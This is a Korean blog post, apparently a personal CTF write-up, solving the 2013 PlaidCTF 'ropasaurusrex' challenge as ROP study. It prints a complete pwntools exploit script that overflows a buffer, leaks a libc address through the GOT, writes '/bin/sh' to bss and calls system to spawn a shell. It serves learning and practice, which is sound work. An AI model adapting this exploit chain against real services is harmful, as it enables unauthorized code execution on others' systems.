 ```yaml
---
layout: post
title: "2013 PlaidCTF ropasaurusrex Write up"
excerpt: "ROP를 공부하기 적합한 간단한 문제"
date: 2020-05-07
categories: [system, ctf]
comments: true
---
```


요세는 새로운 내용을 공부하는게 아닌 기존 지식들을 다시 되돌아보고 있는중이다. 이 문제는 워낙 rop를 공부할때 

유용하다고 평이 나있는 문제라 다시 풀어봤다.

1. binary

![ropsau1.png](/img/ropsau1.png)

2. code

![ropsau2.png](/img/ropsau2.png)

심볼이 없어서 함수명이 저렇게 출력된다. return을 하면서 read하는걸 이용하여 공격하면 될 것 같다.

3. gadget, plt , got , offset, bss

이제 익스를 위하여 드래곤볼을 해야한다. 

plt, got,symbol은 모두  pwntool의 기능을 이용하여 해결하였다.

```python
read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
wirte_got = e.got['write']
sys_offset = s.symbols['system']
read_offset = s.symbols['read']
```

gadget은 objdump를 사용했다.

![ropsau3.png](/img/ropsau3.png)

bss영역 주소는 readelf를 사용했다.

![ropsau4.png](/img/ropsau4.png)

4. exploit

```python
from pwn import *
e = ELF("./ropasaurusrex")
p = process("./ropasaurusrex")
s = ELF("/lib32/libc.so.6")

read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
wirte_got = e.got['write']
sys_offset = s.symbols['system']
read_offset = s.symbols['read']
pppr = 0x80484b6
bss = 0x08049628

pay = 'A' *140
pay += p32(write_plt)
pay += p32(pppr)
pay += p32(1)
pay += p32(read_got)
pay += p32(4)

pay += p32(read_plt)
pay += p32(pppr)
pay += p32(0)
pay += p32(bss)
pay += p32(8)

pay += p32(read_plt)
pay += p32(pppr)
pay += p32(0)
pay += p32(read_got)
pay += p32(4)

pay += p32(read_plt)
pay += 'A' *4
pay += p32(bss)

p.sendline(pay)
read_addr = u32(p.recv(4))
libc = read_addr - read_offset
sys_addr = libc + sys_offset
p.send("/bin/sh")
p.sendline(p32(sys_addr))
p.interactive()

```

나만 그런진 모르겠는데 문제 아카이브를 받았을때 libc정보가 없었다. 그래서 libc-database를 이용하여 해당 libc를 구해서 풀었다. 

![ropsau5.png](/img/ropsau5.png)

다음엔 원샷을 이용하여 해결하는 방법도 해보고싶다. 
